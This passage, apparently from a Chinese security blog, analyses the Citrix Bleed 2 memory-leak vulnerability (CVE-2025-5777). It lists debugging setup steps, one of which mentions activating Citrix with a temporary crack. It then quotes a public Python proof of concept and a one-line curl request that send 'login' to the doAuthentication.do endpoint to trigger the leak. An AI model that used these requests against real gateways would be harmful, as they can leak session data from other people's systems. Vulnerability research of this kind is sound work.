 要对 Citrix 进行漏洞分析，有哪些前提工作，在之前的文章[2]中都有讲过，这里不详细讲解，只列一个流程：  
1. 使用正版 Citrix 或者使用临时 Crack 方案激活 Citrix。  
  
1. 配置 Citrix Gateway 或者 Citrix ADC。（证书是必选项，所以需要创建一个 HTTPS 证书）  
  
1. 要调试nsppe，需要运行命令：
```
pb_policy -h nothing
```

  
。  
  
1. gdbserver 目前没有使用的方法，只能使用 gdb。没有插件，可以使用 GPT 临时写插件。gdb 也只能在虚拟机的 console 中运行，在 ssh 中运行会影响程序的正常运行。所以 Citrix 虚拟机建议配置个串口。  
  
### 漏洞分析  
  
下面，我们回到CVE-2025-5777漏洞，来分析一下 Citrix Bleed 2 的漏洞成因。距离漏洞公布已经过去快一个月了，网上也有很多该漏洞的 PoC 公布[3]，如下所示：  

```
async def fetch(session, url):
    full_url =f&#34;{url}/p/u/doAuthentication.do&#34;
try:
        async with session.post(full_url, data=&#34;login&#34;, proxy=proxy, ssl=False)as response:
if verbose:
print(f&#34;{Fore.CYAN}[DEBUG] POST to {full_url} -> Status: {response.status}&#34;)
if response.status ==200:
                content = await response.read()
if verbose:
print(f&#34;{Fore.CYAN}[DEBUG] Response body (first 200 bytes): {content[:200]!r}&#34;)
                extract_initial_value(content)
else:
if verbose:
print(f&#34;{Fore.RED}[DEBUG] Non-200 status code received: {response.status}&#34;)
except aiohttp.ClientConnectorError ase:
print(f&#34;{Fore.RED}[!] Connection Error: {e}&#34;)
except Exception ase:
print(f&#34;{Fore.RED}[!] Unexpected Error: {e}&#34;)

```

  
bash 版的简化 PoC 如下所示：  

```
$ OPENSSL_CONF=custom-openssl.cnf curl -v https://test.citrix.com/p/u/doAuthentication.do -d 'login'

```

  
这里说个题外话，由于OpenSSL 从 3.x 版本开始，将
```
安全重协商
```

  
设为强制要求，不再默认允许不安全的旧协议重协商（legacy renegotiation）。而我测试的 Citrix ADC 不支持RFC 5746 安全重协商（Secure Renegotiation），因此需要通过配置临时开启旧式重协商支持。  
  